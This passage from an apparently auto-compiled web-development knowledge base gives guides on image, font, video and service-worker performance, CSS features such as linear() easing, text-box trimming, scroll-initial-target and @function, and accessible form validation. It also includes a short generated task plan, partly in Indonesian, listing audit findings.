**HTML: Comprehensive Responsive Image Component**
```html
<picture>
  <!-- Modern Formats with Source Negotiation -->
  <source type="image/avif" srcset="hero-400w.avif 400w, hero-800w.avif 800w" sizes="(max-width: 600px) 100vw, 50vw">
  <source type="image/webp" srcset="hero-400w.webp 400w, hero-800w.webp 800w" sizes="(max-width: 600px) 100vw, 50vw">
  
  <!-- Fallback + Dimensions + Priority for Above-The-Fold -->
  
</picture>

<!-- Below-The-Fold Image -->


<!-- DO: Use native lazy loading for below the fold iframes -->
<iframe src="https://example.com/map" width="800" height="600" loading="lazy" title="Example Map"></iframe>
```

## Service Workers & Caching Strategies

Client-side caching via Service Workers allows applications to bypass the network entirely, serving resources from disk/memory.

### DOs
*   **DO use a `CacheFirst` strategy for static, versioned assets**: Immutable files (fonts, JS/CSS bundles with hash strings) should be served directly from the cache to guarantee instant loading.
*   **DO use `StaleWhileRevalidate` for dynamic, non-critical resources**: For API calls where slight staleness is acceptable, serve immediately from cache while silently updating the cache in the background.
*   **DO implement a `NetworkFirst` strategy for HTML documents**: Ensure the user always receives the latest application shell and manifest, falling back to cache only if offline.
*   **DO restrict cache sizes and expiry**: Use expiration plugins to prevent the Service Worker from exhausting the device's storage quota.

### DON'Ts
*   **DON'T cache opaque responses blindly**: Responses from third-party domains lacking CORS headers are "opaque". Caching them heavily consumes quota and fails silently. Only cache them using `NetworkFirst` or `StaleWhileRevalidate`.
*   **DON'T cache POST requests**: Service workers cannot cache non-GET requests natively. Implement background sync queues for offline submissions.
*   **DON'T bypass versioning**: Failing to update asset hashes/versions will trap users in infinite cache loops.

### Code Examples

**JS: Service Worker Caching via Workbox**
```javascript
import { registerRoute } from 'workbox-routing';
import { CacheFirst, StaleWhileRevalidate, NetworkFirst } from 'workbox-strategies';
import { ExpirationPlugin } from 'workbox-expiration';
import { CacheableResponsePlugin } from 'workbox-cacheable-response';

// 1. HTML Documents: Network First
registerRoute(
  ({ request }) => request.mode === 'navigate',
  new NetworkFirst({ cacheName: 'pages-cache' })
);

// 2. Static Assets (JS, CSS, Fonts): Cache First
registerRoute(
  ({ request }) => ['style', 'script', 'font'].includes(request.destination),
  new CacheFirst({
    cacheName: 'static-resources',
    plugins: [
      new CacheableResponsePlugin({ statuses: [0, 200] }),
      new ExpirationPlugin({ maxEntries: 50, maxAgeSeconds: 30 * 24 * 60 * 60 })
    ]
  })
);

// 3. API Responses: Stale While Revalidate
registerRoute(
  ({ url }) => url.pathname.startsWith('/api/v1/content'),
  new StaleWhileRevalidate({
    cacheName: 'api-cache',
    plugins: [
      new CacheableResponsePlugin({ statuses: [0, 200] })
    ]
  })
);
```

## Web Fonts Optimization

Web fonts are a common source of render blocking. Optimizing them reduces the Flash of Invisible Text (FOIT) and speeds up initial rendering.

### DOs
*   **DO preload critical fonts**: Use `<link rel="preload" as="font" type="font/woff2" crossorigin>` for fonts seen above the fold.
*   **DO subset fonts**: Trim font weights and glyph variations to include only the characters your application requires.

### DON'Ts
*   **DON'T preload all fonts**: Over-preloading leads to network contention that starves other critical assets.

### Code Examples

**CSS: Font Loading Face**
```css
@font-face {
  font-family: 'Modern Sans';
  src: url('/fonts/modern-sans.woff2') format('woff2');
}
```

**HTML: Critical Font Preload**
```html
<!-- Always use crossorigin for fonts even if on the same origin -->
<link rel="preload" href="/fonts/modern-sans.woff2" as="font" type="font/woff2" crossorigin>
```

## Video Performance & Metrics

Video payloads are among the heaviest assets. Optimization focuses on reducing bandwidth stall and preserving Cumulative Layout Shift (CLS) stability.

### DOs
*   **DO specify explicit `width` and `height` attributes**: Setting native dimensions reserves layout space and prevents CLS.
*   **DO provide a `poster` image fallback**: Display a lightweight image placeholder while the video buffers to improve perceived performance.
*   **DO use `preload="none"` for non-critical videos**: Delay bandwidth consumption for below-the-fold or non-autoplaying videos.
*   **DO serve modern formats via source negotiation**: Offer WebM (better compression ratio) alongside standard MP4 formats.
*   **DO use `loading="lazy"` for offscreen videos**: Lazy-loading videos allow `poster` and `preload` downloads to be deferred until the video is in or near the viewport.

### DON'Ts
*   **DON'T auto-play video files blindly**: Rely on user intent or use progressive enhancement streams.
*   **DON'T auto-play large video files at all**: Rely on user intent before downloading large files.

### Code Examples

**HTML: Accessible and Dynamic Video Loader**
```html
<video 
  controls 
  width="1200" 
  height="675"
  poster="/images/video-poster.webp" 
  preload="none"
>
  <source src="/videos/intro.webm" type="video/webm">
  <source src="/videos/intro.mp4" type="video/mp4">
  <!-- Include accessibility tracks -->
  <track src="/video-caps.vtt" kind="captions" srclang="en" label="English">
</video>
```

## JavaScript Code-Splitting

Heavy monolithic bundles block main thread parse times on low-end devices. Splitting ensures we only download bytes required for the immediate viewport.

### DOs
*   **DO use dynamic imports**: Split routes or heavy UI libraries using standard `import()` specifications.
*   **DO configure bundler asset chunking**: Use Vite or Webpack rollup directives to split third-party vendors from runtime application logic.

### DON'Ts
*   **DON'T ship a single, enormous `app.js` bundle**: It increases parse time and memory consumption for initial views.

### Code Examples

**JS: Route based Dynamic Splitting**
```javascript
// Dynamic import of heavy module only when button is clicked
document.getElementById('heavy-btn').addEventListener('click', async () => {
  const { heavyFunction } = await import('./heavy-module.js');
  heavyFunction();
});
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance, vcs, api]

### 📘 KNOWLEDGE: NEXUS_PHYSICS-BASED-EASING.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

Traditional CSS easing functions like `ease-in` or `cubic-bezier()` are limited to simple curves, making it impossible to create complex physics-based effects like bounces or springs. The `linear()` timing function solves this by allowing you to provide a series of stops that can approximate complex curves. Transitions and animations are interpolated based on straight lines between the stops, but within enough stops, it can appear smooth.

### Implementation Steps

1.  **Generate the curve stops:**
    Manually plotting dozens of points for a spring or bounce is impractical. Use a timing function from an external library, or use a  tool to convert an existing JavaScript easing function or an SVG path into the `linear()` syntax. Optional: store these timing functions as CSS custom properties for reuse throughout your site.
2.  **Define the timing function:**
    Apply the generated stops to the `transition-timing-function` or `animation-timing-function` property, or through the `transition` or `animation` shorthands.
3.  **Adjust the duration:**
    Unlike JavaScript physics engines where duration is derived from physical properties (mass, stiffness), CSS still requires a fixed `duration`. You may need to adjust the duration to get the intended effect.

### Example: Spring Easing

This example shows how to use a custom `linear()` function to create a spring effect that overshoots the target value before settling.

```css
.spring {
  /* Define the physics-based easing as a reusable variable */
  --spring-easing: linear(0, 0.016 0.5%, 0.06 1%, 0.226 2%, 1.116 5.4%, 1.375 6.6%, 1.527 7.7%, 1.565 8.2%, 1.585 8.8%, 1.581 9.3%, 1.559 9.8%, 1.458 10.9%, 0.937 14.3%, 0.784 15.5%, 0.693 16.6%, 0.67 17.1%, 0.657 17.7%, 0.671 18.7%, 0.729 19.8%, 1.042 23.3%, 1.13 24.5%, 1.182 25.6%, 1.201 26.7%, 1.192 27.7%, 1.156 28.8%, 0.977 32.2%, 0.925 33.4%, 0.894 34.5%, 0.882 35.6%, 0.887 36.6%, 0.907 37.7%, 1.045 42.4%, 1.069 44.5%, 1.059 46.3%, 0.979 50.9%, 0.96 53.4%, 0.966 55.3%, 1.013 59.9%, 1.024 62.3%, 0.986 71.2%, 1.008 79.9%, 0.995 88.9%, 1);


  /* Apply the easing with a duration that fits the spring's complexity */
  /* MANDATORY: Always include a duration; linear() does not calculate it automatically */
  transition: scale 0.8s var(--spring-easing);
}

.spring:hover {
  scale: 1.2;
}
```
### Example: Bounce Easing

This example shows how to use a custom `linear()` function to create a bounce effect.

```css
.bounce {
  /* Define the physics-based easing as a reusable variable */
  --bounce-easing: linear(0, 0.214 14.7%, 0.386 23.7%, 0.598 31.9%, 0.999 44.7%, 0.807 52.6%, 0.762 56%, 0.747 59.4%, 0.758 62.4%, 0.793 65.6%, 0.999 77.4%, 0.961 81.2%, 0.949 84.8%, 0.956 88%, 0.993 95.5%, 1);


  /* Apply the easing with a duration that fits the bounce's complexity */
  /* MANDATORY: Always include a duration; linear() does not calculate it automatically */
  transition: scale 0.4s var(--bounce-easing);
}

.bounce:hover {
  scale: 1.2;
}
```

### Key Considerations

*   **Performance:** For the smoothest physics-based animations, apply `linear()` to properties that run on a separate thread, such as `transform` and `opacity`.
*   **Precision vs. Payload:** While more stops result in a smoother curve, they also increase the size of your CSS. Most generators allow you to "simplify" the curve to find the optimal balance between smoothness and code size.
*   **Avoid Opacity for Bounces:** Applying bounce easings to `opacity` can cause visually jarring flickering if the value overshoots below 0 or above 1.
*   **Accessibility:** Complex physics-based animations can be distracting or cause motion sensitivity for some users. Always respect user preferences by reducing or disabling these animations.

```css
@media (prefers-reduced-motion: reduce) {
  .element {
    transition: none;
  }
}
```

### Fallback strategies

Baseline status for linear() easing: Newly available. It's been Baseline since 2023-12-11.
Supported by: Chrome 113 (May 2023), Edge 113 (May 2023), Firefox 112 (Apr 2023), and Safari 17.2 (Dec 2023).

#### CSS Fallback
For browsers that do not support `linear()`, provide a standard easing function as a fallback. The browser will ignore the `linear()` value if it doesn't recognize it, falling back to the previous valid declaration.

```css
.element {
  /* Fallback for older browsers (standard smooth exit) */
  transition: transform 0.8s ease-out;
  
  /* Modern browsers will override with the physics-based easing */
  transition-timing-function: linear(0, 1.1, 0.95, 1.02, 1);
}
```

#### JavaScript Library Fallback (Motion/GSAP)

Optional: If a high-fidelity physics animation is critical even in older browsers, use a JavaScript library like **Motion** (motion.dev) or **GSAP** (greensock.com) to handle the animation when `linear()` is unsupported.

1.  **Detect support:** Use `CSS.supports()` to check if the browser handles the `linear()` function.
2.  **Conditionally load/apply:** If unsupported, use the library's spring or bounce implementation.

```javascript
/* Detect if the browser supports the linear() function */
const supportsLinearEasing = window.CSS && CSS.supports('animation-timing-function', 'linear(0, 1)');

if (!supportsLinearEasing) {
  /* 
     Example using Motion (motion.dev) for a spring fallback.
     This should only be initialized if native CSS support is missing.
  */
  import("https://cdn.jsdelivr.net/npm/motion@latest/dist/motion.js").then(({ animate, spring }) => {
    animate(".element", { transform: "scale(1.2)" }, {
      easing: spring({ stiffness: 100, damping: 10 })
    });
  });
}
```

You can also use `@supports` in CSS for more explicit feature detection:

```css
@supports not (animation-timing-function: linear(0, 1)) {
  .element {
    /* Alternative experience for unsupported browsers */
    transition-duration: 0.4s;
    transition-timing-function: cubic-bezier(0.34, 1.56, 0.64, 1);
  }
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance, tdd]

### 📘 KNOWLEDGE: NEXUS_PLAN_PLAN-1778479790742.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026


# 🛠 Implementation Plan: PLAN-1778479790742
**Ref Audit**: [AUDIT-1778479692344](../audit/audit_SUMMARY_AUDIT-1778479692344.md)
**Status**: Ready for Execution

---

## 📋 Task List & Learning Insights

### [ ] Task 1: SECURITY: .env detected (Auto-fix enabled)
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 2: WARNING: [seo-performance-specialist] Large asset detected (1.02 MB).
- **🧐 Why?**: File media yang besar memperlambat waktu muat halaman (LCP), yang berdampak buruk pada pengalaman pengguna dan ranking Google.
- **💡 Action**: Kompres gambar menggunakan tool seperti TinyPNG atau ubah formatnya menjadi WebP/WebM yang lebih ringan.


### [ ] Task 3: INFO: [ux-engineer] Hardcoded color values detected. Consider using CSS variables or Tailwind classes for better UI consistency.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 4: INFO: [ux-engineer] Hardcoded color values detected. Consider using CSS variables or Tailwind classes for better UI consistency.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 5: INFO: [ux-engineer] Hardcoded color values detected. Consider using CSS variables or Tailwind classes for better UI consistency.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 6: INFO: [ux-engineer] Hardcoded color values detected. Consider using CSS variables or Tailwind classes for better UI consistency.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 7: INFO: [ux-engineer] Hardcoded color values detected. Consider using CSS variables or Tailwind classes for better UI consistency.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


### [ ] Task 8: INFO: [ux-engineer] Hardcoded color values detected. Consider using CSS variables or Tailwind classes for better UI consistency.
- **🧐 Why?**: Tidak ada keterangan tambahan.
- **💡 Action**: Gunakan praktik terbaik standar industri.


---
*Generated by Nexus Orchestrator | Ready for Developer Approval*
        

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_PLATFORM-CONTROLS-DISMISS-DIALOG.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

When a modal dialog is open, users expect to use familiar controls to dismiss them: pressing the <kbd>Esc</kbd> key on a keyboard, using the back button or gesture on mobile platforms, or a dismiss gesture with assistive technologies.

When the `<dialog>` element was first introduced, it could be dismissed with the <kbd>Esc</kbd> key, but not other platform controls such as a back button/gesture on mobile. With the addition of the `closedby` attribute for `<dialog>` elements, the extended behavior of responding to more platform-specific controls for close requests has been applied for `<dialog>` elements that are opened in a modal state (i.e. when opened imperatively with the `<dialog>` element’s `showModal()` method in JavaScript or declaratively with the `show-modal` invoker command). So, there is no specific change developers need to make if they are already using the `<dialog>` element.

```html
<!-- MANDATORY: must be opened with either `showModal()` with JavaScript or the `show-modal` command using declarative command invokers in order respond to close requests including platform-specific controls. -->
<dialog aria-labelledby="example">
  <h1 id="example">Example</h1>
  <p>Modal that can be dismissed with close requests.</p>
</dialog>
```

When opened in a modal state, a dialog without the `closedby` attribute responds to close requests the same as explicitly setting the `closedby` attribute to `closerequest`.

```html
<!-- This is unnecessary as it is the default behavior for modal dialogs -->
<dialog closedby="closerequest" aria-labelledby="example">
  <h1 id="example">Example</h1>
  <p>Modal that can be dismissed with close requests.</p>
</dialog>
```

If you also want “light dismiss” behavior, then you must set `closedby` to `any`:

```html
<dialog closedby="any" aria-labelledby="example">
  <h1 id="example">Example</h1>
  <p>Modal that can be dismissed with close requests and light dismiss.</p>
</dialog>
```

## Fallback strategies

<dialog closedby> has limited availability.
Supported by: Chrome 134 (Mar 2025), Edge 134 (Mar 2025), and Firefox 141 (Jul 2025).
Unsupported in: Safari.

`<dialog>` elements opened in a modal state can already be dismissed with <kbd>Esc</kbd>, so there is no fallback necessary. There is no good way to implement close requests from mobile back button/gestures, so it is simpler to embrace this feature as a progressive enhancement, especially given that there are other inclusive means to dismiss the modal dialog. Similarly, light dismiss behavior for a `<dialog>` element using `closedby="any"` can be considered a progressive enhancement.

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_PRECISE-TEXT-ALIGNMENT.MD

# Precise Text Alignment
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## The Problem

Browsers automatically add extra whitespace above and below text characters to accommodate line-height and font-specific metrics like ascenders and descenders. This "ghost space" makes it impossible to achieve pixel-perfect vertical alignment using standard CSS.

Common issues include:
- **Misaligned Icons**: Text appears visually lower or higher than an adjacent icon even when using `align-items: center`.
- **Inaccurate Padding**: A button with `padding: 12px` visually appears to have more space on top or bottom because of the font's internal leading.
- **Flush Alignment**: You cannot align the top of a capital letter exactly with the top of a container or an adjacent image without using "magic number" negative margins.

## The Solution

The `text-box-trim` and `text-box-edge` properties (shorthand `text-box`) allow you to trim this internal leading based on specific font metrics. By trimming the text box to the **cap-height** (top of capital letters) and the **alphabetic baseline** (bottom of most letters), you can ensure that the element's bounding box matches its visual content.

### Implementation Strategy

1. **MANDATORY**: Apply `text-box-trim: trim-both` (or the `text-box` shorthand) to the element containing the text.
2. **MANDATORY**: Specify which metrics to use for trimming with `text-box-edge`. For most UI alignment, use `cap alphabetic`.
3. **DO** use this to achieve visual vertical centering in flex or grid containers.
4. **DO** use it to ensure that your CSS `padding` values match the visual gap between the text and the container edge.
5. **DO NOT** use it on long-form body text where traditional line-spacing is necessary for readability. It is best suited for headings, buttons, and UI labels.

## Implementation Guide

### Use case 1: Trim internal leading for badges

Different fonts have different amounts of built-in spacing above and below the text. This can provide challenges in matching a design, or in visually centering text in a badge. When you want a container's padding to exactly hug the text, use `text-box: trim-both cap alphabetic`. This is especially useful for dense UI components like badges or tags. This allows the padding to start right at the text edge on all sides.

```css
.badge {
  padding: 10px;
  background: hotpink;
  border-radius: 10px;
  /* 
    Trims the top to the cap-height and 
    the bottom to the alphabetic baseline.
  */
  text-box: trim-both cap alphabetic;
}
```

### Use case 2: Center text with icons

When using Flexbox to align text and icons, the "ghost space" often makes the text look slightly off-center. Trimming the box ensures the layout engine uses the actual visible letter height for alignment.

```css
.button {
  display: inline-flex;
  align-items: center;
  gap: 8px; 
}
/* 
  text-box does NOT inherit, and must be applied directly to the text element.
*/
.button-text{
  /* 
    The flex container now centers against the 
    visible letters, not the invisible font box.
  */
  text-box: trim-both cap alphabetic;
}
```

### Use case 3: Align text flush with top edges

To align a heading perfectly with the top of an adjacent image or decorative element, use `trim-start cap alphabetic`. Even though the end will not be trimmed, the end edge must be defined.

```css
.hero {
  display: flex;
  align-items: flex-start;
}

h1 {
  /* MANDATORY: The bottom edge must also be defined, even though only the top is trimmed. */
  text-box: trim-start cap alphabetic;
}
```

## Best Practices

- **DO** use the `text-box` shorthand for conciseness: `text-box: <trim-direction> <edges>`.
- **DO** always specify both edges, even if only one edge is being trimmed (unless using the default `text` edge).
- **DO** combine with `line-height` for controlled spacing. Trimming removes the leading before the first and last line of text, but `line-height` still affects the distance between lines in multi-line text.
- **DO NOT** apply to every element. Use it only where precision alignment is a requirement.

### Fallback strategies

text-box has limited availability.
Supported by: Chrome 133 (Feb 2025), Edge 133 (Feb 2025), and Safari 18.2 (Dec 2024).
Unsupported in: Firefox.

`text-box` is a progressive enhancement. In browsers that do not support it, the text will simply render with its default leading. Your layout will still be functional, though slightly less precise. No special fallback code is required as the properties are safely ignored by older browsers.

## Other Considerations

1. **Font Metrics**: Different fonts have different internal metrics. `cap alphabetic` is a reliable default, but some fonts or use cases may require `ex` (x-height) for better lowercase alignment.
2. **Multi-line Text**: Trimming applies to the first and last line of the block. Internal lines are not affected.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_PREVENT-TEXT-WRAPPING.MD

# Prevent text wrapping
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Modern CSS provides the `text-wrap` property to control how text breaks within its container. To ensure text stays on a single line and ignores container boundaries, use `text-wrap: nowrap`. This is the modern, more semantic replacement for `white-space: nowrap`.

Preventing text wrapping is useful for UI elements like navigation tabs, horizontal scrolling chips, or any scenario where a line break would break the layout or visual design.

## How to implement `text-wrap: nowrap`

### Basic Usage

To prevent any automatic line breaks, apply `text-wrap: nowrap` to the element containing the text.

1. **MANDATORY**: Apply `text-wrap: nowrap` to the target element.
2. **OPTIONAL**: Use an `overflow` property (such as `hidden`, `scroll`, or `auto`) to manage the resulting overflow.
3. **OPTIONAL**: Use `text-overflow: ellipsis` to provide a visual cue when text is truncated. Note: This requires `overflow: hidden`.

### Example code

```css
.no-wrap-text {
  /* MANDATORY: Prevents automatic line breaks */
  text-wrap: nowrap;

  /* OPTIONAL: Handles the overflow visually */
  overflow: hidden;
  text-overflow: ellipsis;

  /* OPTIONAL: Constrain width to force and handle overflow within this element */
  max-width: 200px;
}
```

### Specific Control with Longhands

The `text-wrap` property is a shorthand for `text-wrap-mode` (whether text wraps) and `text-wrap-style` (how it wraps). Since `text-wrap-style` is ignored when wrapping is disabled, you should generally stick to the `text-wrap` shorthand.

While the longhand `text-wrap-mode: nowrap` exists, the property name is currently considered a placeholder by the CSS Working Group and may change in the future.

```css
.granular-control {
  /* Modern longhand equivalent to white-space: nowrap */
  /* Preferred: text-wrap: nowrap; */
  text-wrap-mode: nowrap;
}
```

### Fallback strategies

Baseline status for text-wrap: Newly available. It's been Baseline since 2024-10-17.
Supported by: Chrome 130 (Oct 2024), Edge 130 (Oct 2024), Firefox 124 (Mar 2024), and Safari 17.5 (May 2024).

For browsers that do not yet support `text-wrap`, use the legacy `white-space` property. Modern browsers treat `white-space` as a shorthand for setting both the `text-wrap-mode` and `white-space-collapse` properties.

```css
.no-wrap-with-fallback {
  /* Fallback for older browsers */
  white-space: nowrap;

  /* Modern standard */
  text-wrap: nowrap;
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_PULL-TO-REVEAL.MD

# Pull to Reveal
> **VERSION**: v1 | **Last Updated**: 26/05/2026


"Pull to reveal" is a UI pattern where content (such as a search bar or refresh control) is hidden above the top of a scrollable area on initial load, and the user can pull down (scroll up) to reveal it. This pattern is commonly used in mobile apps and web apps for search bars, filters, and other secondary controls that should be accessible but not immediately visible.

The CSS property `scroll-initial-target` offers a declarative, CSS-only way to implement this pattern. By setting `scroll-initial-target: nearest` on the main content element, the scroll container will render with the hidden content scrolled out of view. Previously, developers relied on JavaScript (`Element.scrollIntoView()`) or URL fragment identifiers (`#content-id`) to achieve this, both of which have limitations and are tricky to implement.

## How to Implement

To implement a pull-to-reveal pattern:

1. **Ensure a scroll container:** The target element must be inside a scroll container (an element with overflow that allows scrolling, such as `overflow: auto`). This can be any ancestor element, including the root `<html>` element.
2. **Define the hidden element:** Place the content you want to hide (e.g., a search bar) as the first descendant inside the scroll container. This element will be scrolled out of view on initial load.
3. **Define the main content:** Place the main content element immediately after the hidden element. This is the element the user should see first.
4. **Target the main content:** Apply `scroll-initial-target: nearest` to the main content element so the scroll container renders with it scrolled into view, hiding the element above it.
5. **Add scroll snapping:** To ensure the hidden element is always either fully visible or fully hidden (and doesn't rest in a partially-scrolled state), add `scroll-snap-type: y mandatory` to the scroll container and `scroll-snap-align: start` to both the hidden element and the main content element.

## Example Code: Pull to Reveal Search

```css
/**
 * ANCESTOR: Define the scroll container.
 * Scroll snapping ensures the search bar is always
 * either fully visible or fully hidden.
 */
.scroll-container {
  height: 100vh;
  overflow-y: auto;
  scroll-snap-type: y mandatory;
}

/**
 * HIDDEN ELEMENT: The search bar hidden above the fold on load.
 * It has scroll-snap-align so it snaps into place when pulled down.
 */
.search-bar {
  height: 60px;
  scroll-snap-align: start;
}

/**
 * MAIN CONTENT + TARGET: The element the user sees first.
 * scroll-snap-align makes it a valid snap point.
 * scroll-initial-target tells the browser to scroll here on
 * initial render, hiding the search bar above it.
 */
.main-content {
  scroll-snap-align: start;
  scroll-initial-target: nearest;
}
```

## Strategic Implementation & Best Practices

- **DO** use `scroll-initial-target: nearest` when you want to draw the user's attention to a specific part of a scrollable area upon load and intentionally hide peripheral UI units like a search bar at the very top.
- **DO NOT** confuse this with accessibility focus. This property only moves the **visual** viewport; it does not move the keyboard focus. You must manually manage `element.focus()` if the target is intended to be the starting point for keyboard users.
- **DO NOT** use this if you need a smooth "scrolling" animation on load; this property is discrete and sets the position instantly during the layout phase.
- **DO NOT** set `scroll-initial-target` on multiple elements within the same scrollable container. If multiple elements specify `scroll-initial-target: nearest`, the browser selects the one that appears first in the DOM tree order.
- **DO** account for the **Precedence Hierarchy**: A URL fragment (e.g., `example.com/#top`) and the container-level `scroll-start` property both take precedence over `scroll-initial-target`.

## Fallback Strategy

scroll-initial-target has limited availability.
Supported by: Chrome 133 (Feb 2025) and Edge 133 (Feb 2025).
Unsupported in: Firefox and Safari.

For browsers that do not yet support the API, use a JavaScript fallback. Note that for pulling content to reveal, you want the main content to be bound to the `start` (top) of the container.

```javascript
/**
 * Progressive Enhancement Fallback
 */
document.addEventListener("DOMContentLoaded", () => {
  // Check for native CSS support
  if (!CSS.supports("scroll-initial-target", "nearest")) {
    const targetContent = document.querySelector('.main-content.target');
    if (targetContent) {
      // Use behavior: "instant" to mimic the native CSS behavior
      // 'block: start' should match your CSS 'scroll-snap-align' (or expected top position)
      targetContent.scrollIntoView({ behavior: 'instant', block: 'start' });
    }
  }
});
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, api]

### 📘 KNOWLEDGE: NEXUS_REDUCE-STYLE-REPETITION.MD

# Reduce Style Repetition with CSS Functions
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Maintaining large stylesheets often leads to repetitive logic, especially when dealing with design system tokens like gradients or responsive layout patterns.

The CSS `@function` at-rule allows you to encapsulate this logic into reusable, parameterized functions, making your CSS more maintainable, consistent and DRY (Don't Repeat Yourself).

## The `@function` Syntax

A custom function is defined using the `@function` rule followed by a dashed name and a list of parameters. The function returns a value using the `result` property. 

```css
@function --my-function(--input1 <length>, --input2: default-value) returns <length> {
  /* Logic goes here */
  result: var(--input1);
}
```

### Key Concepts
- **Parameters:** Must start with a double dash (`--`).
- **Defaults:** You can provide default values using a colon (`:`).
- **Result:** The `result` property determines the value the function returns. The last `result` declared in the function body wins.
- **Scoping:** Parameters and variables defined inside the function are locally scoped.
- **Types:** You can require parameters and the returned value to match a CSS type with bracket notation (e.g., `<color>`) and allow multiple types with the `type` function (e.g., `type(<number> | <percentage>)`).

## Practical Examples

### 1. Design System Tokens (Gradients)
Ensure consistent color gradients across your app by encapsulating gradient logic. The `--angle` provides a default value to provide consistency that can be overridden.

```css
@function --fancy-gradient(--start-color <color>, --end-color <color>, --angle: 98deg) returns <image>{
  result: linear-gradient(in oklab var(--angle), var(--start-color), var(--end-color) );
}

.card {
  background: --fancy-gradient(#ed73d7, #5d87e9);
}
```

### 2. Conditional Layout Logic
You can use `@media` or other queries directly inside a function to return different values based on the environment. When using conditional logic in a function, note that the `@function` does not "return" at the first value of `result`, but rather follows the CSS cascade, and resolves to the last value that matches based on the screen size, container size, or other query.

```css
@function --grid-template(--count <number>){
  /* MANDATORY: Put default value first. */
  result: 1fr; /* Default: stack */
  @media (min-width: 800px) {
    result: repeat(var(--count), 1fr); /* Grid on larger screens */
  }
}

main {
  display: grid;
  grid-template-columns: --grid-template(2);
}
```

## Best Practices
- **Use Dashed Names:** Always prefix your function names and parameters with `--`.
- **Provide Defaults:** Make your functions more robust by providing sensible default values.
- **Keep it Simple:** Use functions for logic that is actually repeated or complex. Don't over-engineer simple property-value pairs.
- **Use Types:** Ensure your parameters and return values are the expected types.
- **Consider Precompiled Alternatives:** For functions that do not depend on user input, media queries or other client-side variation, consider using a CSS precompiler to avoid doing unnecessary work on the client. 

### Fallback strategies

@function has limited availability.
Supported by: Chrome 139 (Aug 2025) and Edge 139 (Aug 2025).
Unsupported in: Firefox and Safari.

In browsers that do not support CSS Functions, values set using CSS functions will be invalid. To support other browsers, provide a fallback value for the property first. This will be overridden in browsers with CSS function support.

```css
.card {
  /* Provide fallback, in this case a solid color. */
  background: #5d87e9;
  background: --fancy-gradient(#ed73d7, #5d87e9);
}

main {
  /* Provide fallback, in this case a simple stacked default. */
  grid-template-columns: 1fr;
  grid-template-columns: --grid-template(2);
}
```

If it is a requirement to reduce style repetition while supporting other browsers, consider a CSS precompiler with functions, like Sass.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_REQUIRED-FIELD-FEEDBACK.MD

# Required Field Feedback
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## The Problem
Marking required fields with an error state immediately upon page load can be confusing. Ideally, a required field should only look "invalid" if the user has attempted to fill it out and failed.

## The Solution
The `:user-invalid` pseudo-class solves this perfectly. For a required field, it will not match on page load. It will only match if:
1.  The user interacts with the field (e.g., types a character and deletes it) and then leaves it (blur), leaving it empty.
2.  The user attempts to submit the form while the field is empty.

### Implementation Strategy

1.  **HTML Constraint**: Add the `required` attribute to your inputs.
2.  **Visual Feedback**: Use `:user-invalid` to style the border red and show a "Required" helper text.
3.  **Timing**: Rely on the browser's native timing for visual feedback. You don't need `onBlur` handlers to add a `touched` class anymore, though some JavaScript is still needed to sync ARIA attributes (see below).

## Implementation Guide

### 1. HTML Structure
```html
<form id="feedback-form">
  <div class="field">
    <label for="full-name">Full Name</label>
    <input
      type="text"
      id="full-name"
      name="full-name"
      required
      aria-errormessage="name-error"
    >
    <!-- MANDATORY: Include an icon or distinct non-color indicator alongside error text -->
    <div id="name-error" class="error-msg">
      <span aria-hidden="true">❌</span> This field is required.
    </div>
  </div>
</form>
```

### 2. CSS
```css
.error-msg {
  display: none;
  color: #d93025;
  font-size: 0.875rem;
  margin-top: 0.25rem;
}

/*
  Only highlight empty required fields AFTER the user visits them.
  MANDATORY: Provide multiple indicators (border shift + helper text/icon) to avoid color-only state communication.
*/
input:user-invalid {
  border-color: #d93025;
  background-color: #fce8e6;
}

input:user-invalid + .error-msg {
  display: block;
}

/* Optional: Subtle indicator for required fields that are valid */
input:required:user-valid {
  border-color: #188038;
  border-width: 2px;
}
```

### 3. JavaScript State Synchronization

MANDATORY: Because `:user-invalid` is a visual state, you MUST provide a JavaScript bridge to sync `aria-invalid="true"` dynamically for assistive technologies when a user blurs an invalid field or attempts submission.

```javascript
const form = document.getElementById('feedback-form');

const syncAriaInvalid = (input) => {
  if (!input.checkValidity()) {
    input.setAttribute('aria-invalid', 'true');
  } else {
    input.removeAttribute('aria-invalid');
  }
};

// Sync on blur when a user finishes interacting
form.addEventListener('blur', (e) => {
  if (e.target.matches('input[required]')) {
    syncAriaInvalid(e.target);
  }
}, true);

// Sync all required fields when submission is attempted
form.addEventListener('submit', () => {
  form.querySelectorAll('input[required]').forEach(syncAriaInvalid);
});

// Remove error state immediately upon correction
form.addEventListener('input', (e) => {
  if (e.target.matches('input[required]') && e.target.checkValidity()) {
    e.target.removeAttribute('aria-invalid');
  }
});
```

## Fallbacking & Browser Support

